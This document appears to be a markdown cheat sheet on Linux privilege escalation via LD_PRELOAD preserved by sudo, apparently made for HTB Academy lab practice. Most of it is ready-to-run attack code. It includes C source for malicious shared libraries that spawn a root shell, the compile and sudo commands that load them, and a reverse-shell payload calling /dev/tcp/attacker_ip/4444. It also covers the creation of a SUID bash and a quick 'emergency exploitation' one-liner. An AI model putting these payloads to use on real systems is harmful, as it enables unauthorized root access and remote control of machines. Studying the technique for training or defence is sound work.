# 📚 Shared Libraries (LD_PRELOAD)

## 🎯 Overview

LD_PRELOAD environment variable allows loading custom shared libraries before program execution, enabling privilege escalation when combined with sudo configurations that preserve environment variables.

## 🔍 Prerequisites

### Check for LD_PRELOAD in Sudo
```bash
# Check sudo configuration
sudo -l

# Look for env_keep+=LD_PRELOAD in output:
# env_keep+=LD_PRELOAD

# Example vulnerable entry:
# (root) NOPASSWD: /usr/sbin/apache2 restart
```

### Library Dependencies Analysis
```bash
# View shared library dependencies
ldd /bin/ls
ldd /usr/sbin/apache2

# Check LD_PRELOAD current value
echo $LD_PRELOAD
```

## 🚀 LD_PRELOAD Exploitation

### Create Malicious Library
```bash
# Create malicious shared library code
cat > root.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF
```

### Compile Shared Library
```bash
# Compile as shared library
gcc -fPIC -shared -o root.so root.c -nostartfiles

# Verify compilation
file root.so
# Output: root.so: ELF 64-bit LSB shared object
```

### Execute Privilege Escalation
```bash
# Use LD_PRELOAD with sudo command
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

# Should drop to root shell immediately
id
# uid=0(root) gid=0(root) groups=0(root)
```

## 🔧 Alternative Payloads

### Reverse Shell Library
```bash
cat > revshell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'");
}
EOF

gcc -fPIC -shared -o revshell.so revshell.c -nostartfiles
sudo LD_PRELOAD=/tmp/revshell.so /allowed/sudo/command
```

### SUID Binary Creation
```bash
cat > suid.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash");
}
EOF

gcc -fPIC -shared -o suid.so suid.c -nostartfiles
sudo LD_PRELOAD=/tmp/suid.so /allowed/sudo/command
/tmp/rootbash -p  # Execute SUID bash
```

## 🔍 Detection & Enumeration

### LD_PRELOAD Vulnerability Check
```bash
#!/bin/bash
echo "=== LD_PRELOAD VULNERABILITY CHECK ==="

echo "[+] Checking sudo configuration for LD_PRELOAD:"
sudo -l 2>/dev/null | grep -i "LD_PRELOAD"

echo "[+] Current LD_PRELOAD value:"
echo $LD_PRELOAD

echo "[+] Available sudo commands with env_keep:"
sudo -l 2>/dev/null | grep -A 10 "env_keep.*LD_PRELOAD"

echo "[+] Compiler availability:"
which gcc g++ 2>/dev/null
```

### Environment Variable Analysis
```bash
# Check all environment variables kept by sudo
sudo -l | grep "env_keep"

# Test LD_PRELOAD functionality
echo 'void _init(){system("echo LD_PRELOAD works");}' > test.c
gcc -fPIC -shared -o test.so test.c -nostartfiles
LD_PRELOAD=./test.so ls  # Should show "LD_PRELOAD works"
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Check for LD_PRELOAD in sudo
sudo -l | grep "LD_PRELOAD"

# Available compilers
which gcc g++

# Sudo commands available
sudo -l | grep "NOPASSWD"
```

### Emergency Exploitation
```bash
# Quick LD_PRELOAD escalation
echo 'void _init(){unsetenv("LD_PRELOAD");setuid(0);system("/bin/bash");}' > root.c
gcc -fPIC -shared -o root.so root.c -nostartfiles
sudo LD_PRELOAD=./root.so /allowed/sudo/command
```

### HTB Academy Example
```bash
# 1. Check sudo configuration
sudo -l
# Look for: env_keep+=LD_PRELOAD

# 2. Create malicious library
gcc -fPIC -shared -o root.so root.c -nostartfiles

# 3. Execute with any allowed sudo command
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

# 4. Access flag
cat /root/ld_preload/flag.txt
```

## ⚠️ Exploitation Requirements

### Must Have
- **Sudo access** to any command (even non-GTFOBin)
- **env_keep+=LD_PRELOAD** in sudoers configuration
- **GCC compiler** available on target system
- **Write permissions** in accessible directory

### Common Scenarios
- **Non-exploitable sudo commands** with LD_PRELOAD kept
- **Service restart permissions** (apache, nginx, etc.)
- **Safe commands** made dangerous by LD_PRELOAD
- **Custom applications** with sudo permissions

---

*LD_PRELOAD exploitation transforms safe sudo commands into privilege escalation vectors - environment variable preservation combined with shared library injection bypasses command restrictions for immediate root access.* 